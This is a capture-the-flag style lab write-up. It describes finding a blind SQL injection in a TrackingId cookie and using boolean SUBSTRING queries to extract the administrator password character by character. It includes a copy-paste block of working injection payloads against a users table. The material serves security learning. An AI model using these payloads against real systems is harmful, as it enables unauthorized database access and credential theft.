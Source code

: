 # Blind SQL injection with conditional responses

A concise write-up using **my original steps** (verbatim flow) with small, accurate notes.  
**Note:** Payloads are shown exactly as used (no URL-encoding).

---

## 🥅 Goal
**Get the administrator password and log in** using a boolean-based signal from a cookie.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: Get the administrator password and log in**

2. **lab informs that we have "username,password" columns in "users" table**

3. **i have not payed attention to the other details, so you'll see how i figured it out**

4. **i tried to find the vulnerable param but everything look good until i realised, it was the cookie:**

5. **`TrackingId=ZzzPCSZEwOvDr9vB;` returns Content length of "5,501" while `TrackingId=ZzzPCSZEwOvDr9vB';` returns CL of "5,440"**

6. **When i looked back what missing i took text comparer (see picture), discovering a tag containing: "Welcome back!" is missing, Note: you could read it from lab description. but that's how you'd do it in more realistic environment**

7. **how many columns returning? -> `TrackingId=ZzzPCSZEwOvDr9vB'+UNION+SELECT+null+--+;` -> only one!**

8. **Trying to reflect i got nothing, lets try the knowledge the lab provided to us:**

9. **`'+UNION+SELECT+username+FROM+users+WHERE+username='administrator'+--+;` -> gets the "Welcome back" string (our flag)**

10. **This means it boolean based, if have an "informer" telling us when what we request actually exists in on the page.**

11. **Logically we would enumerate password, but it will take too long.**

12. **We can try guessing each letter or a symbol at a time, since it's a lab, its probably just letters and numbers lets start with that.**

13. **Lets figure out how to do boolean in sql, and take the first letter (see pictures).**

14. **`'+UNION+SELECT+CASE+WHEN+(SUBSTRING(password,1,1)='1')+THEN+username+ELSE+username+END+FROM+users+WHERE+username='administrator'+--+;`**

15. **This is pointless but we can see we get "Welcome back", if we change this**

16. **`'+UNION+SELECT+CASE+WHEN+(SUBSTRING(password,1,1)='1')+THEN+a+ELSE+username+END+FROM+users+WHERE+username='administrator'+--+;`**

17. **as long as the password does not start with 1, we wont get the "Welcome back" String anymore.**

18. **Now we need to find a way to automate this, we could use burp, but its very slow.**

19. **i will use python, see automation.py file!**

20. **`'+UNION+SELECT+null+FROM+users+WHERE+username='administrator'+AND+SUBSTRING(password,1,1)='c'+--+;`**

21. **This was true, changing to 'b' also gave me true. i had to find a different way.**

22. **after a long research i found out the lab wont trigger by UNION, since UNION always returning something, then i had to make the query fail in a condition!**

23. **i started all over again, from the basics: `ZzzPCSZEwOvDr9vB'+AND+1=1+--+` -> this gave me true**

24. **`ZzzPCSZEwOvDr9vB'+AND+1=2+--+` this gave me false. Okay...**

25. **`'+AND+(SELECT 1)=1+--+` -> this is also true. you can see where im going..**

26. **after a while of randomly playing i found out this:**

27. **`ZzzPCSZEwOvDr9vB'+AND+(SELECT SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')!='r'+--+` which return true, changing r will result in false!**

28. **Now i rebuild the python file!**

29. **Get password and log in**

30. **Lab solved!**

---

## 🧠 Minimal Additions (Why / Tips)

- **Why UNION stalled for boolean tests:** `UNION SELECT ...` tends to **produce a row** regardless of predicate truthiness, so your page’s presence/absence signal (“Welcome back!”) isn’t a reliable boolean oracle with UNION. Switching to **inline boolean predicates** (`...'+AND+<condition>+--+`) on the original query lets the page state flip between true/false.
- **Content-Length as oracle:** Tracking **Content-Length** (and diffing HTML) is a classic way to detect boolean changes when there’s no explicit error. Your diff confirming the **missing "Welcome back!"** is spot on.
- **Trailing comment space:** Many parsers require whitespace after `--`. Your `--+` works because `+` is treated as a space in this context or otherwise neutral. Keep it consistent with the lab’s behavior.
- **Enumeration strategy:** Build a loop over an **alphabet** (e.g., `0123456789abcdefghijklmnopqrstuvwxyz`) and position index `i` in `SUBSTRING(password,i,1)`. Flip the condition per character until the page signals **true**, then append and increment `i`.
- **DB flavor:** If this were **MySQL**, `SUBSTRING` is fine. If **Oracle**, use `SUBSTR(...)`; for **SQL Server**, use `SUBSTRING` as well. The lab here accepts `SUBSTRING` as used.

---

## 🔧 Raw Payloads I Used (Copy/Paste)

```text
TrackingId=ZzzPCSZEwOvDr9vB;
TrackingId=ZzzPCSZEwOvDr9vB';
TrackingId=ZzzPCSZEwOvDr9vB'+UNION+SELECT+null+--+;

'+UNION+SELECT+username+FROM+users+WHERE+username='administrator'+--+;
'+UNION+SELECT+CASE+WHEN+(SUBSTRING(password,1,1)='1')+THEN+username+ELSE+username+END+FROM+users+WHERE+username='administrator'+--+;
'+UNION+SELECT+CASE+WHEN+(SUBSTRING(password,1,1)='1')+THEN+a+ELSE+username+END+FROM+users+WHERE+username='administrator'+--+;
'+UNION+SELECT+null+FROM+users+WHERE+username='administrator'+AND+SUBSTRING(password,1,1)='c'+--+;

ZzzPCSZEwOvDr9vB'+AND+1=1+--+
ZzzPCSZEwOvDr9vB'+AND+1=2+--+
'+AND+(SELECT 1)=1+--+
ZzzPCSZEwOvDr9vB'+AND+(SELECT SUBSTRING(password,1,1)+FROM+users+WHERE+username='administrator')!='r'+--+
```

---

## 🏁 Result
- Identified a **cookie-based boolean oracle**, switched from UNION attempts to inline boolean predicates, automated the character search, **recovered the admin password**, and logged in. **Lab Solved. ✅**
